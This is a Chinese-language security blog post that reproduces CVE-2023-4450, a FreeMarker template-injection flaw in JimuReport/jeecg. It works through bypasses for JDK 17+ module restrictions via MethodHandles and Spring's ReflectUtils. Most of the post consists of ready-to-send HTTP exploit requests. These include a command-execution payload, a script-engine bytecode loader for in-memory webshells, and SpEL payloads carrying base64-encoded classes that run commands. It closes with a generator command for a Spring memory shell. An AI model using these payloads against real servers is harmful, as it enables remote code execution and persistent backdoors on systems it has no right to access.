# JDK 17+ FreeMarker SSTI：从 CVE-2023-4450 复现引出 MethodHandle 句柄、named module 机制研究

积木报表这个洞已经公开很久了，就是一个 FreeMarker SSTI ，之前复现的时候用了 1.6.0 版本测试可以执行命令 也可以打内存马就把没继续管了，最近听到不少关于这个洞的讨论，可以用下面这个 payload 执行命令，但是不能注入内存马，所以决定再来重新跟一下这个洞，没想到收获颇丰。

```http
POST /jmreport/queryFieldBySql HTTP/1.1
Host: 
Accept: application/json, text/plain, */*
Content-Type: application/json

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"id\") }'" }
```

## 0x01 寻找可用的 payload json 格式

直接打 freeMarker 的 payload，会在 `org.jeecg.modules.jmreport.desreport.util.f#a()` 这个方法遇到正则回溯的问题，搜了一下看到 [技术研究|Jeecg-Boot SSTI 漏洞利用研究](https://mp.weixin.qq.com/s/D25erS2sUccAtX14GOD_yQ) 这篇文章给出了下面这个 payload 用 script 加载



```http
POST /jmreport/queryFieldBySql HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Content-Type: application/json
JWfzTzb: hostname

{
"sql":"call${\"freemarker.template.utility.ObjectConstructor\"?new()(\"javax.script.ScriptEngineManager\").getEngineByName(\"js\").eval('data=\"yv66v....\";bytes=\"\".getBytes();try{bytes=java.util.Base64.getDecoder().decode(data);}catch(e){aClass=java.lang.Class.forName(\"sun.misc.BASE64Decoder\");object=aClass.newInstance();bytes=aClass.getMethod(\"decodeBuffer\",java.lang.String.class).invoke(object,data);}classLoader=java.lang.Thread.currentThread().getContextClassLoader();try{clazz=classLoader.loadClass(\"org.apache.util.readonlyiterator.collections.Wicket\");clazz.newInstance();}catch(err){defineClassMethod=java.lang.Class.forName(\"java.lang.ClassLoader\").getDeclaredMethod(\"defineClass\",\"\".getBytes().getClass(),java.lang.Integer.TYPE,java.lang.Integer.TYPE);defineClassMethod.setAccessible(true);loadedClass=defineClassMethod.invoke(classLoader,bytes,0,bytes.length);loadedClass.newInstance();};#{1};')}","dbSource":"","type":"0"}
```

实测中遇到的第一个是 1.4.3 这个版本，上述 payload 会遇到报错，好好好高版本没有低版本有是叭。



跟进一下 `/queryFieldBySql` 接口，还有一个 paramArray 参数



最终参与了解析，也不用去考虑回溯的问题



所以最终形成如下 payload

```
{"sql": "select '${x}'", "dbSource": "", "type": "0", "paramArray": "[{\"paramName\": \"x\", \"paramTxt\": \"\", \"orderNum\": 1, \"tableIndex\": 1, \"id\": \"\", \"paramValue\": \"  freemarker payload......  \", \"extJson\": \"\", \"_index\": 0, \"_rowKey\": \"105\"}]"}
```

## 0x02 JDK 高版本下的 SPEL 注入 (MethodHandle)

在解决了上面的问题后本以为这个漏洞可以结束了，又遇到了另一个更复杂的环境，一样是可以执行命令但是不能加载字节码，在原地转圈很久后终于想起来看一下目标环境的系统变量，是一个 JDK 18 ，高版本的利用文章很少，所以记录一下。

```http
POST /jmreport/queryFieldBySql HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Content-Type: application/json

{"sql": "select '${x}'", "dbSource": "", "type": "0", "paramArray": "[{\"paramName\": \"x\", \"paramTxt\": \"\", \"orderNum\": 1, \"tableIndex\": 1, \"id\": \"\", \"paramValue\": \"${\\\"freemarker.template.utility.ObjectConstructor\\\"?new()(\\\"org.springframework.expression.spel.standard.SpelExpressionParser\\\").parseExpression(\\\"{T(java.lang.System).getProperty('java.version')}\\\").getValue()}\", \"extJson\": \"\", \"_index\": 0, \"_rowKey\": \"105\"}]"}
```



SPEL 加载字节码用到了 `org.springframework.cglib.core.ReflectUtils` 这个类，这个类位于 `spring-core` 模块中，提供了一些实用方法，用于反射操作和类加载等功能，比如以下代码将执行 `open -a Calculator.app`

```
{T(org.springframework.cglib.core.ReflectUtils).defineClass('org.example.Exec',T(java.util.Base64).getDecoder().decode('yv66vgAAADQAMgoACwAZCQAaABsIABwKAB0AHgoAHwAgCAAhCgAfACIHACMIACQHACUHACYBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAEkxvcmcvZXhhbXBsZS9FeGVjOwEADVN0YWNrTWFwVGFibGUHACUHACMBAAg8Y2xpbml0PgEAClNvdXJjZUZpbGUBAAlFeGVjLmphdmEMAAwADQcAJwwAKAApAQAERXhlYwcAKgwAKwAsBwAtDAAuAC8BABZvcGVuIC1hIENhbGN1bGF0b3IuYXBwDAAwADEBABNqYXZhL2xhbmcvRXhjZXB0aW9uAQALc3RhdGljIEV4ZWMBABBvcmcvZXhhbXBsZS9FeGVjAQAQamF2YS9sYW5nL09iamVjdAEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAKAAsAAAAAAAIAAQAMAA0AAQAOAAAAdgACAAIAAAAaKrcAAbIAAhIDtgAEuAAFEga2AAdXpwAETLEAAQAEABUAGAAIAAMADwAAABoABgAAAAcABAAJAAwACgAVAAwAGAALABkADQAQAAAADAABAAAAGgARABIAAAATAAAAEAAC/wAYAAEHABQAAQcAFQAACAAWAA0AAQAOAAAAWwACAAEAAAAWsgACEgm2AAS4AAUSBrYAB1enAARLsQABAAAAEQAUAAgAAwAPAAAAFgAFAAAAEQAIABIAEQAUABQAEwAVABUAEAAAAAIAAAATAAAABwACVAcAFQAAAQAXAAAAAgAY'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader()))}
```

用和环境一致的 JDK 本地测试会抛出 `InaccessibleObjectException` 异常，这个异常表明试图调用 `java.lang.ClassLoader.defineClass()` 方法，在 JDK 9 之后的版本引入了 [named module 机制](https://openjdk.org/jeps/200)，将 `java.*` 下非public变量和方法声明为受保护的，因此不能直接访问。这个限制在 JDK 17 强制开启。

```sh
Caused by: java.lang.reflect.InaccessibleObjectException: Unable to make protected final java.lang.Class java.lang.ClassLoader.defineClass(java.lang.String,byte[],int,int,java.security.ProtectionDomain) throws java.lang.ClassFormatError accessible: module java.base does not "opens java.lang" to unnamed module @4501b7af
	at java.base/java.lang.reflect.AccessibleObject.checkCanSetAccessible(AccessibleObject.java:354)
	at java.base/java.lang.reflect.AccessibleObject.checkCanSetAccessible(AccessibleObject.java:297)
	at java.base/java.lang.reflect.Method.checkCanSetAccessible(Method.java:199)
	at java.base/java.lang.reflect.Method.setAccessible(Method.java:193)
	at org.springframework.cglib.core.ReflectUtils.defineClass(ReflectUtils.java:552)
	... 16 more
```

官方提供通过启动参数允许对保护方法的访问。

```sh
--add-opens java.base/java.lang=ALL-UNNAMED
```

关于改机制的讨论先放放，我们先来看一下高版本 `ReflectUtils.defineClass()` 方法在哪一步报错了。

在执行 `classLoaderDefineClassMethod.setAccessible(true);` 时，因为 `ClassLoader.definessClass()` 是一个保护方法所以无法继续执行



回看到 `ReflectUtils.defineClass()` 函数开始时有这么一段描述 `Preferred option: JDK 9+ Lookup.defineClass API if ClassLoader matches`, 在这个执行中直接通过 `c = (Class) lookupDefineClassMethod.invoke(lookup, b);` 来创建 Class ，并且 `privateLookupInMethod` 和 `lookupDefineClassMethod` 在 static 方法中已经被赋值了，`contextClass` 也是可控的，那么实际上只要满足 `contextClass != null && contextClass.getClassLoader() == loader` 这个条件就能实现我们的需求。



`java.lang.invoke.MethodHandles.Lookup` 与 JNDI 的 lookup 是两个概念不要混淆，是什么呢？ [官方文档](https://docs.oracle.com/javase%2F7%2Fdocs%2Fapi%2F%2F/java/lang/invoke/MethodHandle.html) 中这样描述 `A method handle is a typed, directly executable reference to an underlying method, constructor, field, or similar low-level operation, with optional transformations of arguments or return values.` 简单来说，在 JDK 6 以前通常是通过反射实现动态调用，JDK7 这个句柄的概念更像是方法的指针。通过命令执行对比如下：

```java
    public static void original(String cmd) throws Exception {
        Class<?> cls = Class.forName("java.lang.Runtime");
        Object runtime = cls.getMethod("getRuntime").invoke(null);
        cls.getMethod("exec", String.class).invoke(runtime, cmd);
    }

    public static void methodHandles(String cmd) throws Throwable {
        Class<?> cls = Class.forName("java.lang.Runtime");
        MethodHandle execMethod = MethodHandles.lookup().findVirtual(cls, "exec", MethodType.methodType(Process.class, String.class));
        execMethod.invoke(cls.getMethod("getRuntime").invoke(null), cmd);
    }
```

`MethodHandles` 也是提供了执行保护操作的方法，普通的 `MethodHandles.lookup()` 无法访问特定的类的 private 方法或字段。而 `privateLookupIn` 方法则可以绕过这些限制

回过头来看一下一般的 Payload 中的 `javax.management.loading.MLet` 这个类，继承了 `java.net.URLClassLoader` 



构造方法中传入的 ClassLoader 还是通过 `URLClassLoader` 来处理，对 `URLClassLoader` 比较熟悉就会知道在这一步实际上是将参数传递给父类加载器用于委派加载



这就会造成一个问题，在 `ReflectUtils.defineClass()` 方法可以看到 `MLet` 这个 loader 中没有可用的 class，那么为了满足 `contextClass.getClassLoader() == loader` 这个条件，索性就放弃委派加载，干脆就直接用 `Thread.currentThread().getContextClassLoader()` 



按照这个思路，`contextClass` 选择一个 ClassLoader 中有的就行，既然是解析 SPEL 表达式嘛就随便选一个类 `org.springframework.expression.ExpressionParser` 构建出这个表达式

```
{T(org.springframework.cglib.core.ReflectUtils).defineClass('org.example.Exec',T(java.util.Base64).getDecoder().decode('yv66vgAAADQAMgoACwAZCQAaABsIABwKAB0AHgoAHwAgCAAhCgAfACIHACMIACQHACUHACYBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAEkxvcmcvZXhhbXBsZS9FeGVjOwEADVN0YWNrTWFwVGFibGUHACUHACMBAAg8Y2xpbml0PgEAClNvdXJjZUZpbGUBAAlFeGVjLmphdmEMAAwADQcAJwwAKAApAQAERXhlYwcAKgwAKwAsBwAtDAAuAC8BABZvcGVuIC1hIENhbGN1bGF0b3IuYXBwDAAwADEBABNqYXZhL2xhbmcvRXhjZXB0aW9uAQALc3RhdGljIEV4ZWMBABBvcmcvZXhhbXBsZS9FeGVjAQAQamF2YS9sYW5nL09iamVjdAEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAKAAsAAAAAAAIAAQAMAA0AAQAOAAAAdgACAAIAAAAaKrcAAbIAAhIDtgAEuAAFEga2AAdXpwAETLEAAQAEABUAGAAIAAMADwAAABoABgAAAAcABAAJAAwACgAVAAwAGAALABkADQAQAAAADAABAAAAGgARABIAAAATAAAAEAAC/wAYAAEHABQAAQcAFQAACAAWAA0AAQAOAAAAWwACAAEAAAAWsgACEgm2AAS4AAUSBrYAB1enAARLsQABAAAAEQAUAAgAAwAPAAAAFgAFAAAAEQAIABIAEQAUABQAEwAVABUAEAAAAAIAAAATAAAABwACVAcAFQAAAQAXAAAAAgAY'),T(java.lang.Thread).currentThread().getContextClassLoader(), null, T(java.lang.Class).forName("org.springframework.expression.ExpressionParser"))}
```

可以看到抛出一个异常 `org.example.Exec not in same package as lookup class`



原因是出在 `java.lang.invoke.MethodHandles.Lookup.ClassFile#newInstance()` 这个方法中，我们加载的字节码类名和构建时传入的 contextClass 不一致



解决办法也很简单，定义一个同样包的类就行，至此完成 JDK 高版本的 SPEL 注入。

```
{T(org.springframework.cglib.core.ReflectUtils).defineClass('org.springframework.expression.Test',T(java.util.Base64).getDecoder().decode('yv66vgAAADQALwoACgAXCQAYABkIABoKABsAHAoAHQAeCAAfCgAdACAHACEHACIHACMBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAJUxvcmcvc3ByaW5nZnJhbWV3b3JrL2V4cHJlc3Npb24vVGVzdDsBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACEBAApTb3VyY2VGaWxlAQAJVGVzdC5qYXZhDAALAAwHACQMACUAJgEAC3N0YXRpYyBFeGVjBwAnDAAoACkHACoMACsALAEAFm9wZW4gLWEgQ2FsY3VsYXRvci5hcHAMAC0ALgEAE2phdmEvbGFuZy9FeGNlcHRpb24BACNvcmcvc3ByaW5nZnJhbWV3b3JrL2V4cHJlc3Npb24vVGVzdAEAEGphdmEvbGFuZy9PYmplY3QBABBqYXZhL2xhbmcvU3lzdGVtAQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07AQATamF2YS9pby9QcmludFN0cmVhbQEAB3ByaW50bG4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEACQAKAAAAAAACAAEACwAMAAEADQAAAC8AAQABAAAABSq3AAGxAAAAAgAOAAAABgABAAAABgAPAAAADAABAAAABQAQABEAAAAIABIADAABAA0AAABbAAIAAQAAABayAAISA7YABLgABRIGtgAHV6cABEuxAAEAAAARABQACAADAA4AAAAWAAUAAAAJAAgACgARAAwAFAALABUADQAPAAAAAgAAABMAAAAHAAJUBwAUAAABABUAAAACABY='),T(java.lang.Thread).currentThread().getContextClassLoader(), null, T(java.lang.Class).forName("org.springframework.expression.ExpressionParser"))}
```



```
-e JavaClass -jht RceEcho -mw Spring -je SPEL,FreeMarker -jme JDK17
```

jeecg 测试成功

